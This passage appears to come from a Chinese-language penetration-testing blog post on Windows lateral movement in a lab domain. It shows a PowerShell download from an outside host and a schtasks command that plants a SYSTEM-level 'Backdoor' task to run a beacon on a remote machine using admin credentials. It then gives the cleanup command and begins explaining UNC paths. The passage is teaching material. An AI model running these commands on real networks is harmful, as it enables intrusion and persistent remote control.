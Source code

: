 ```
(New-Object Net.WebClient).DownloadFile('http://uu2fu3o.com/test.dtd','C:\powershell-download.txt')
```

![powershell-download-pc](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/Intranet_horizontal/powershell-download-pc.png)

如图从对应url下载文件

## 计划任务横向

### 常规流程

虽说是计划任务，但还是不免需要用到IPC共享的技术，通过已经建立的IPC连接上传reverse_shell.exe程序，并创建计划任务使其执行

1.利用已建立的共享上传文件到目标机器

2.利用IPC连接或使用凭据的方法在远程主机上创建计划任务

直接演示没有建立IPC连接的方法，利用用户凭据创建计划任务（需要是管理员凭据）

```
schtasks /Create /S 192.168.30.10 /TN Backdoor /SC minute /MO 1 /TR C:\beacon2.exe /RU System /F /U Administrator /P uu2fu3o@admin
```

![plan-mission](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/Intranet_horizontal/plan-mission.png)

这里为了实验更加直观，方便，给DC添加了第二张网卡(记得把文件传过去，执行的是本地文件)，执行后即可上线

![dc-plan-mission](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/Intranet_horizontal/dc-plan-mission.png)

执行以下命令，将创建的计划任务删除

```
schtasks /Delete /S 192.168.30.10 /TN Backdoor /F
```

![plan-missions-delete](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/Intranet_horizontal/plan-missions-delete.png)

### UNC路径加载执行

Windows系统中使用UNC路径来访问网络共享资源,大致格式如下

```
\\servername\sharename\directory\filename
```

servername:服务器主机名

sharename:共享服务名

directory和:filename:  目录和文件名

#### What is UNC

UNC（Universal Naming Convention）共享路径是一种用于标识和访问网络上共享资源的命名约定。它通常用于在本地计算机或网络上访问共享文件夹、打印机或其他网络资源。

#### How to use

